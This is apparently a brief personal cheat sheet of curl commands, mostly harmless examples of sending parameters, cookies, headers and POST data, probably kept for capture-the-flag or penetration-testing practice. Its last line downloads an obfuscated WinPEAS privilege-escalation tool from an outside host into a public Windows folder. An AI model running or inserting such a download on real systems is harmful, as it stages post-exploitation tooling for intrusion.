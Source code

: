 ### 26-Sep-23 Tue

```
C:\>curl url?parameter=value
```

```
curl url?parameter=value
```

```
C:\>curl "url" --cookie key=please
```

```
curl url -H 'Cookie: key=please'
```

```
curl 'url' -H 'Content-Type: key/please'
```

```
curl -v 'url' -H 'Content-Type: key/please'
```

```
curl -v url -X POST --data 'parameter=value'
```

```
curl -v url -X POST
```

```
curl -v url -X POST --data ''
```

```
curl -v 'url?parameter1=value1&parameter2=value2'
```

```
curl -v url -X POST --data 'parameter1=value1&parameter2=value2'
```

```
curl -v 'url?arrayname[0]=value1&arrayname[1]=value2'
```

```
curl -v $ip
```

```
curl 10.10.16.20:8000/winPEASany_ofs.exe -o C:/Users/Public/win.exe
```

